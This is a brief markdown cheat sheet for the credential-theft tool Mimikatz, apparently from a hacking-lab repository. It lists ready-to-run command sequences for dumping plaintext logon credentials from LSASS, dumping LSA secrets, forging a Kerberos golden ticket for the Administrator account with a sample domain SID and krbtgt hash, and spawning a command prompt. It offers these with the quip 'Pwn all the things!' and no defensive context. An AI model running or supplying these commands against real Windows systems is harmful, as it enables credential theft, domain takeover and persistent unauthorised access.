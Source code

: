 # Mimikatz

## Recovering LSASS
```
Open an Administrative prompt
mimikatz.exe 
mimikatz(commandline)# privilege::debug
mimikatz(commandline)# log credentials.txt
mimikatz(commandline)# sekurlsa::logonpasswords
Pwn all the things!
```

## Dump the LSA
```
mimikatz.exe 
mimikatz(commandline)# privilege::debug
mimikatz(commandline)# log lsa-dump.txt
mimikatz(commandline)# lsadump::lsa /patch
```

## Generate Golden Ticket
Prerequisites:
- Domain SID 
- NTLM hash of account
```
mimikatz.exe 
mimikatz(commandline)# privilege::debug
mimikatz (commandline)# kerberos::golden /user:Administrator /domain:hacklab.local /sid:S-1-5-21-771578074-87863937-975173046 /krbtgt:59e520df53bda9d2f8513b049e349b24 /id:500 /ptt
```

## Opening Command Prompt from Mimikatz
```
mimikatz.exe 
mimikatz(commandline)# privilege::debug
mimikatz(commandline)# misc::cmd
```